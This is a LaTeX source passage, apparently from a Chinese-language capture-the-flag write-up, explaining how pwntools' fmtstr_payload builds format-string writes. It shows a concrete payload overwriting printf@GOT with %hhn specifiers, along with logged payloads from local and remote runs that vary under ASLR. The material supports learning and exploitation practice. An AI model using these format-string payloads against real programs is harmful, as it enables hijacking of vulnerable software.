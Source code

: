 \documentclass[10pt,a4paper]{article}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{quote}
小結：\textbf{不要以為
\texttt{write\_\allowbreak{}size=\textquotesingle{}\allowbreak{}byte\textquotesingle{}\allowbreak{}} 就一定產生
6 個 \texttt{\%\allowbreak{}hhn}。} 想確認就跑
\texttt{fmtstr\_\allowbreak{}payload(8,\allowbreak{}\ \allowbreak{}\{\allowbreak{}addr:\allowbreak{}\ \allowbreak{}value\}\allowbreak{},\allowbreak{}\ \allowbreak{}write\_\allowbreak{}size=\textquotesingle{}\allowbreak{}byte\textquotesingle{}\allowbreak{},\allowbreak{}\ \allowbreak{}numbwritten=0,\allowbreak{}\ \allowbreak{}badbytes=b\textquotesingle{}\allowbreak{}\textbackslash{}\allowbreak{}n\textquotesingle{}\allowbreak{})}
把結果印出來看， 或明確加上
\texttt{write\_\allowbreak{}size\_\allowbreak{}max=\textquotesingle{}\allowbreak{}byte\textquotesingle{}\allowbreak{}}。\textbf{重點是
\texttt{len(payload)\ \allowbreak{}\textless{}\allowbreak{}=\ \allowbreak{}0xFF} 且不含
\texttt{\textbackslash{}\allowbreak{}n}。}
\end{quote}

\textbf{實際 payload 範例之一（遠端某次執行，那次剛好 6 個 byte
都沒被合併）}：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
%64c%17$hhn%52c%18$hhn%14c%19$hhn%68c%20$hhn%12c%21$hhn%21c%22$hhnaaaaba
\x10\xe0K\xff\xee]\x00\x00     ← 第 17 個參數：&printf@GOT       (=0x5deeff4be010)
\x15\xe0K\xff\xee]\x00\x00     ← 第 18 個參數：&printf@GOT+5     (先寫最大的 byte)
\x12\xe0K\xff\xee]\x00\x00     ← 第 19 個參數：&printf@GOT+2
\x14\xe0K\xff\xee]\x00\x00     ← 第 20 個參數：&printf@GOT+4
\x13\xe0K\xff\xee]\x00\x00     ← 第 21 個參數：&printf@GOT+3
\x11\xe0K\xff\xee]\x00\x00     ← 第 22 個參數：&printf@GOT+1
\end{Verbatim}

\textbf{但位址是 ASLR 抽出來的，所以「哪幾個 byte
被合併」每次都不一樣。} 其他實測輸出：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
[*] write payload (96 bytes): b'%64c%15$hhn%63c%16$hhn%8c%17$n%58c%18$hhn%4c%19$hhnaaaab...'    ← 含 %17$n（4-byte 合併）
[*] write payload (96 bytes): b'%64c%15$hhn%51c%16$hhn%36c%17$hhn%7c%18$hhn%1097c%19$hna...'   ← 含 %1097c%19$hn（2-byte 合併）
\end{Verbatim}

（我自己最近跑的兩次 ------ 本機、遠端各一次 ------ 都剛好是 \textbf{112
bytes、6 個 \texttt{\%\allowbreak{}hhn}}。可見這真的每次不同。）
\end{document}
